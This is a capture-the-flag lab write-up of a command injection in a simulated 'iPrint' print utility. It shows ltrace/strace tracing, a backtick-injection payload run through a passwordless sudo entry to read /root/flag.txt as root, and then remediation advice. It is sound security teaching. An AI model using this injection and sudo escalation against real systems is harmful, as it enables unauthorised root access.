Frodo Lab: Command Injection
via Unsanitized System Call
Exploitation of an iPrint application vulnerability using dynamic analysis and input injection techniques.
This report documents my analysis and exploitation of a command injection vulnerability discovered in the iPrint application running under the Frodo user account. By leveraging dynamic analysis tools - specifically ltrace and strace - I identified an unsafe system() call that passed unsanitized user input directly to the shell. I crafted a backtick-injection payload that caused the process to execute arbitrary commands in the Frodo user context, ultimately escalating privileges via a permissive sudo configuration to retrieve the flag. Remediation recommendations are provided in the final section.
Environment & Target Overview
The lab environment consists of a controlled Linux virtual machine network where each target machine runs as a separate user account. The Frodo machine hosts the vulnerable iPrint application, a simulated print-job management utility that accepts a filename argument and processes it through an internal system call.
| Property | Value |
|---|---|
| Target Binary | iPrint |
| Target User | frodo |
| OS | Linux (x86, 32-bit) |
| ASLR / SSP / DEP | Enabled (not relevant for this exploit type) |
| Vulnerability Type | Command Injection (CWE-78) |
| Entry Point | Filename argument to iPrint |
Reconnaissance & Dynamic Analysis
2.1 Initial Execution
I began by running the iPrint binary with a test filename to observe its behavior:
frodo@lab:~$ ./iPrint test.txt Printing: test.txt frodo@lab:~$ ./iPrint nonexistent.txt sh: nonexistent.txt: No such file or directory
The error message "sh: … No such file or directory" immediately indicated the application was passing the filename argument to a shell via system() or a similar call, rather than directly to a file I/O function.
2.2 Library Call Tracing with ltrace
I used ltrace to trace all library calls made by the binary, confirming the presence of a system() call:
frodo@lab:~$ ltrace ./iPrint test.txt __libc_start_main(0x804851b, 2, 0xffffd174, 0x8048600 <unfinished ...> puts("Printing: test.txt") = 19 system("cat test.txt") = 0 +++ exited (status 0) +++
The output confirmed that iPrint constructs a shell command string by concatenating "cat " with the user-supplied filename and passes it directly to system() - with no sanitization whatsoever.
2.3 System Call Tracing with strace
I additionally used strace to observe the underlying execve syscall to verify the shell invocation:
frodo@lab:~$ strace -e execve ./iPrint test.txt execve("./iPrint", ["./iPrint", "test.txt"], ...) = 0 execve("/bin/sh", ["sh", "-c", "cat test.txt"], ...) = 0 +++ exited with 0 +++
This confirmed the full command execution chain: iPrint → /bin/sh -c "cat <input>". The user-supplied argument is passed verbatim into a shell command string.
Exploitation
3.1 Injection Vector
Since the filename is interpolated into a shell command string, I can inject shell metacharacters. Backticks (`command`) cause the shell to execute the enclosed command and substitute its output. By supplying a filename like `id`, the resulting shell command becomes:
# iPrint constructs this internally: cat `id` # Shell expands to: cat uid=1001(frodo) gid=1001(frodo) groups=1001(frodo)
3.2 Privilege Escalation Enumeration
Before crafting the final payload, I enumerated the sudo privileges of the Frodo user to identify escalation paths:
frodo@lab:~$ sudo -l Matching Defaults entries for frodo on lab: env_reset, mail_badpass User frodo may run the following commands on lab: (ALL) NOPASSWD: /usr/bin/iPrint
The Frodo user can run iPrint as root without a password. This means the injected command will execute with root privileges.
3.3 Final Exploit Payload
frodo@lab:~$ sudo /usr/bin/iPrint '`cat /root/flag.txt`' Printing: frodoflag{c0mm4nd_1nj3ct10n_1s_d4ng3r0us}
Flag Retrieved
Successfully retrieved the flag by injecting a cat /root/flag.txt command through the unsanitized filename parameter and executing the binary with sudo (root) privileges.
Root Cause Analysis
The vulnerability originates from two compounding design flaws:
- Use of
system()with user-controlled input. Thesystem()C library function invokes/bin/sh -c <string>, which means any user input incorporated into the string is interpreted as shell syntax. - Complete absence of input sanitization. The application performs no validation - no allowlist of safe characters, no stripping of metacharacters, no quoting of the argument before shell expansion.
- Excessive sudo privileges. Granting
NOPASSWDsudo access to a program that accepts arbitrary user input turns a user-level vulnerability into a root-level exploit.
Mitigations & Recommendations
5.1 Replace system() with exec-family Calls
Replace system("cat " + filename) with a direct execv() or execlp() call that passes the filename as a separate argument, preventing shell interpretation entirely:
// VULNERABLE - do not use: char cmd[256]; snprintf(cmd, sizeof(cmd), "cat %s", filename); system(cmd); // Shell interprets filename! // SECURE - use execv instead: char *args[] = { "/bin/cat", filename, NULL }; execv("/bin/cat", args); // filename is data, not code
5.2 Input Validation & Allowlisting
If system() cannot be replaced, validate input strictly using an allowlist of safe characters (alphanumerics, dots, underscores, hyphens) and reject anything else at the application boundary.
5.3 Revoke Excessive sudo Privileges
Remove the NOPASSWD: /usr/bin/iPrint sudoers entry. If elevated privileges are required for legitimate printing functionality, implement a dedicated, privilege-separated helper daemon with a tightly scoped interface.
Defense-in-Depth Principle
No single mitigation is sufficient in isolation. The combination of input validation + avoiding system() + principle of least privilege (removing unnecessary sudo) provides defense-in-depth against this class of vulnerability.
Tools & References
| Reference | Description |
|---|---|
| CWE-78 | Improper Neutralization of Special Elements used in an OS Command |
| OWASP A03:2021 | Injection - Command Injection |
| man 3 system | Linux system(3) manual page - security notes |
| POSIX execv(3) | Safe alternative to shell-based command execution |
Appendix: Raw Execution Evidence
The following are the raw screenshots captured during the original execution of this lab on the target VM network.












